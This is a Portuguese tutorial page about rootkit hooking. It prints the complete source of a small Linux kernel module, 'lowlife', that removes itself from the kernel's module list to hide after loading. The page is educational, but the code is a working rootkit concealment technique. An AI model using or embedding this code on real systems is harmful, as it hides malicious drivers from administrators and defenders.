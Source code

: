 <img width="30%" src="https://i.imgur.com/CGV9DU1.png"></img>

# Hooking
Um hook, é basicamente um gancho em alguma funcionalidade de algum software<br><br>
No caso dos rootkits, esse gancho seria geralmente para ocultar alguma coisa, um exemplo disso é o [lowlife](https://github.com/xnwm0/lowlife), que faz um hook pra se esconder na lista de drivers<br><br>

# lowlife
Veja a source do driver<br><br>
lowlife.c
```c
#include <linux/module.h>
#include "lowlife.h" /* -- header with low_drv_hide() -- */

static int __init low_init(void)
{
  low_drv_hide(); /* -- call low_drv_hide() -- */
  printk(KERN_INFO "driver lowlife is hidden.\n");
  return 0;
}

static void __exit low_exit(void)
{
  printk(KERN_INFO "driver unloaded.\n");
}

module_init(low_init);
module_exit(low_exit);
```
<br>
lowlife.h
```c
static struct list_head *drv_prev;
void low_drv_hide(void)
{
  drv_prev = THIS_MODULE->list.prev; /* --- load list previous --- */
  list_del(&THIS_MODULE->list); /* --- remove driver from drivers list --- */
}
```
<br>
Perceba que no `lowlife.h`, é carregada uma `list`, que seria a lista de drivers do sistema, e é feito um hook para o driver se auto-deletar da `list`<br>
Para entender melhor, veja [esse vídeo](https://youtu.be/3npnXeOnEAw)<br><br>

[pwn](../README.md)<br>
[home](../../README.md)

